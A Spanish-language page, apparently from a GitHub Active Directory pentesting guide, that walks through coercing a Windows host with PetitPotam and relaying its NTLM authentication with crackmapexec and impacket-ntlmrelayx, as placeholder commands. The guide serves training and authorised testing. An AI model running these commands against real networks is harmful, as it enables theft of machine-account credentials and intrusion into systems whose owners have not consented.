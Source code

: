 # Coercionar a la Víctima con PetitPotam

Si la vítima es vulnerable a petit potam podemos capturar las credenciales de la cuenta del equipo utilizando la técnica de NTLM RELAY:
[NTLM_relay](no_credentials/NTLM_relay/): _Crackmapexec | Responder | ntlmrelayx | Proxychains | Impacket-secretsdump | lsassy | DonPAPI | impacket-smbclient | impacket-smbexec_

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam2.png?raw=true "NTLM relay petitpotam")

```Bash
# Comprobar si la víctima es vulnerable a petitpotam con crackmapexec
poetry run crackmapexec smb <Rango IP> -M petitpotam
# Ejecutamos petitpotam del repositorio de Github: https://github.com/topotam/PetitPotam
python petitpotam.py <IP atacante> <DNS del equipo vísctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam1.png?raw=true "petitpotam")

Resultad: (para ver las sesiones escribir "socks")

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/petitpotam/petitpotam3.png?raw=true "NTLM relay petitpotam")
